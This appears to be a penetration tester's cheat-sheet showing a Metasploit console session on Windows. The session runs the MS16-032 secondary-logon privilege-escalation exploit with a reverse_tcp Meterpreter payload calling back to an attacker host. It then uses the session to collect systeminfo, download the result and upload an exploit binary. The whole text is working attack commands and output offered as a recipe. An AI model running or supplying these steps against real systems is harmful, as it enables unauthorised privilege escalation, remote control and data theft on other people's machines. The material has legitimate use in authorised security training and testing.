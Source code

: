 msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc

msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set sessions 3
sessions => 3
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set payload windows/x64/meterpreter/reverse_Tcp
[-] The value specified for payload is not valid.
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST x.x.x.x
LHOST => x.x.x.x
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LPORT 51003
LPORT => 51003
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run



#Save Windows systeminfo for searching exploits
meterpreter > execute -f "cmd.exe /c systeminfo > systeminfo.txt"
Process 2284 created.



#Download file from meterpreter session
meterpreter > download systeminfo.txt
[*] Downloading: systeminfo.txt -> systeminfo.txt
[*] Downloaded 3.26 KiB of 3.26 KiB (100.0%): systeminfo.txt -> systeminfo.txt
[*] download   : systeminfo.txt -> systeminfo.txt



#Upload file to meterpreter host
meterpreter > upload 41020.exe
[*] uploading  : 41020.exe -> 41020.exe
[*] Uploaded 547.00 KiB of 547.00 KiB (100.0%): 41020.exe -> 41020.exe
[*] uploaded   : 41020.exe -> 41020.exe
